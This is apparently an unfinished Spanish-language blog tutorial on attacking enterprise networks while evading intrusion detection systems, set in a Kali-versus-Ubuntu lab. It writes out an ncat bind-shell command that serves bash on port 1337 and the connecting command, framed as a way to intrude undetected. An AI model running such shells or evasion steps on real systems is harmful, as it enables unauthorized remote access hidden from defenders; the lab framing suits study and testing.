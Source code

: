 ```yaml
---
title: Atacar redes empresariales y saltar a los sistemas de detección de intrusos(IDS)
author: nik0
date: 2020-11-26 16:38:00 +0800
categories: [Ciberseguridad]
tags: [IDS,Pentesting]
---
```


## Introducción

En las redes empresariales es muy común ver IDS, IPS y NGFW entre otros tipos de sistemas que reconocen patrones inusuales de conductas no autorizadas, analizan paquetes de red, examinan el tráfico y los puertos, etc.

Por eso cuando queremos hacer una intrusión a un sistema, es muy importante que estos sistemas no detecten lo que hacemos, ya que de lo contrario nos bloquearían la conexión al servidor víctima y no podriamos concluir con lo que queremos hacer.

## Montando el laboratorio

Primero, voy a tener 2 máquinas activas, la primera va a ser Kali (Atacante) y la segunda va a ser una máquina de Ubuntu (Victima), en Ubuntu voy a tener instalado Wireshark para poder capturar los paquetes TCP y poder diferenciar entre una conexión encriptada y otra que no lo está.

## Utilizando Ncat

Vamos a abrir una terminal y ejecutar el comando ```ncat -nlvp 1337 -e /bin/bash``` "n" significa no hay host vinculante, "l" es que para poner a la escucha, "v" para que sea más "detallado" o verboso y "p" significa el puerto a la escucha ```-e /bin/bash``` significa que vamos a tener un entorno en bash, presionamos enter y tiene que estar tal cual en la foto:

(poner foto aki)

luego desde Kali(atacante) nos vamos a conectar a Ubuntu(Víctima), para ello utlizamos el comando ```ncat -nv 172.16.211.131 1337``` ponemos la ip de Ubuntu y el puerto que está a la escucha, presionamos enter y deberia aparecernos así:

(poner foto aki)

## Configurando Wireshark

Antes de ponernos a escribir comandos etc, vamos a poner a Wireshark a seguir los paquetes de red TCP, en mi caso sería la interfaz "ens33" si se deja el cursor un rato ahi, nos muestra la ip de la máquina en este caso la de Kali, lo presionamos 2 veces y ya se puso a la escucha

(poner foto aki)


